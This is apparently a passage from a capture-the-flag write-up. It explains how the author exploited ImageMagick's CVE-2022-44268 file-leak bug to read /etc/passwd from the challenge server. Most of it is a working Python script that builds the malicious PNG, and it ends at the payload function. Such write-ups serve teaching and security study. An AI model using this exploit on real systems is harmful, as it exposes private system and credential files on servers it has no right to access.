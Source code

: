Checking online, we find that this version of ImageMagick is vulnerable to [CVE-2022-44268](https://twitter.com/JFrogSecurity/status/1621158368839892993), which provides an arbitrary remote file leak when converting PNG files. [This blog post](https://www.metabaseq.com/imagemagick-zero-days/) provides a great overview of the bug and the code path in ImageMagick that triggers it. It's extremely easy to exploit: adding a `tEXt` chunk of type `profile` with a file path (e.g. `/etc/passwd`) as the content is sufficient; the converted image will contain a `zTXt` (compressed text) chunk containing the contents of the target file.

I started by simply submitting the PoC given in the blog post, which worked perfectly and dumped the contents of `/etc/passwd`. Then I wrote a simple script, [`dl_file.py`](files/stage1/dl_file.py) to construct PNG files and download arbitrary remote documents:

```python
import requests
import struct
import zlib
import sys
import io
import base64
import os

PNG_SIG = b"\x89PNG\r\n\x1a\n"

# from pypng
def write_chunk(outfile, tag, data=b''):
    data = bytes(data)
    outfile.write(struct.pack("!I", len(data)))
    outfile.write(tag)
    outfile.write(data)
    checksum = zlib.crc32(tag)
    checksum = zlib.crc32(data, checksum)
    checksum &= 0xffffffff
    outfile.write(struct.pack("!I", checksum))

def write_chunks(out, chunks):
    """Create a PNG file by writing out the chunks."""

    out.write(PNG_SIG)
    for chunk in chunks:
        write_chunk(out, *chunk)

def chunks(infile):
    sig = infile.read(8)
    assert sig == PNG_SIG
    while 1:
        chunk = infile.read(8)
        if not chunk:
            return
        length, type = struct.unpack("!I4s", chunk)
        data = infile.read(length)
        assert len(data) == length
        checksum = infile.read(4)
        assert len(checksum) == 4
        yield (type, data)

def make_cve_png(filename):
    chunks = [
        (b"IHDR", bytes.fromhex("00 00 00 01 00 00 00 01 01 00 00 00 00")),
        (b"IDAT", bytes.fromhex("08 D7 63 68 00 00 00 82 00 81")),
        (b"tEXt", b"profile\0" + filename.encode("utf8") + b"\0"),
        (b"IEND", b""),
    ]
    f = io.BytesIO()
    write_chunks(f, chunks)
    return f.getvalue()
```